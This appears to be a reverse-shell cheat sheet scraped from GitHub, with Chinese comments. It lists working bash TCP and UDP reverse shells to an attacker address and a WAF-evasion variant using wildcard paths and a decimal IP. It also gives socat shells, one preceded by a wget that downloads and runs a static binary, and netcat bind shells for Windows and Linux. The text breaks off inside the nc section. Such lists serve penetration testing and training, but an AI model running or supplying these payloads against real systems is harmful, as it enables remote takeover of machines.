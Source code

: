 ### bash

- tcp

    ```bash
    bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
    /bin/bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

    # 绕waf
    # ip转十进制
    /???/b??h -i >& /dev/tcp/167772161/4242 0>&1

    0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
    ```

- udp

    ```bash
    Victim:
    sh -i >& /dev/udp/10.0.0.1/4242 0>&1

    Listener:
    nc -u -lvp 4242
    ```

### Socat

```bash
user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242
user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```
```bash
user@victim$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

Static socat binary can be found at [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)

### nc

- **bind shell**
    ```bash
    # 被控端
    nc -lvp 4444 -e cmd.exe     # win
    nc -lvp 4444 -e /bin/bash   # linux

    # 攻击端
    nc -nv 192.168.1.1 4444
